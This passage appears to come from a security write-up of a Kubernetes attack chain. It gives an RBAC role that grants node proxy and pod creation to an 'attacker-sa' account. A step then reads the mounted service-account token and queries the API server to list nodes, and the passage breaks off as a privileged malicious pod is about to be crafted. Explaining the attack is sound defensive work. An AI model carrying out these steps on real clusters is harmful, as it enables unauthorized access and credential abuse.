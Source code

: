     ```YAML
    
    apiVersion: rbac.authorization.k8s.io/v1
    kind: ClusterRole
    metadata:
      name: node-proxy-and-pod-creator-role # Example role name
    rules:
    - apiGroups: [""]
      resources: ["nodes"]
      verbs: ["get", "list"]
    - apiGroups: [""]
      resources: ["nodes/proxy"]
      verbs: ["create"] # Allows initiating proxied connections
    - apiGroups: [""]
      resources: ["pods"]
      verbs: ["create"] # Allows creating pods
    ---
    apiVersion: rbac.authorization.k8s.io/v1
    kind: ClusterRoleBinding
    metadata:
      name: attacker-sa-to-node-proxy-creator-binding
    subjects:
    - kind: ServiceAccount
      name: attacker-sa
      namespace: attacker-namespace
    roleRef:
      kind: ClusterRole
      name: node-proxy-and-pod-creator-role
      apiGroup: rbac.authorization.k8s.io
    ```
    
2. Step 1: Discover Target Node:
    
    From the compromised attacker-pod, the attacker uses the attacker-sa service account token (typically mounted at /var/run/secrets/kubernetes.io/serviceaccount/token) with kubectl or direct API calls to list all nodes in the cluster:
    
    ```Bash
    
    # Inside attacker-pod
    TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
    CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
    K8S_API_SERVER="https://kubernetes.default.svc" # Or actual API server address
    
    curl --cacert $CACERT --header "Authorization: Bearer $TOKEN" -X GET $K8S_API_SERVER/api/v1/nodes`
    ```
    
    The attacker identifies a `target-node-name` from the output.
    
3. Step 2: Craft Malicious Pod Specification:
    
    The attacker creates a pod manifest (malicious-pod.yaml) designed to run with high privileges on the target-node-name. This pod will attempt to access sensitive node-level information.
    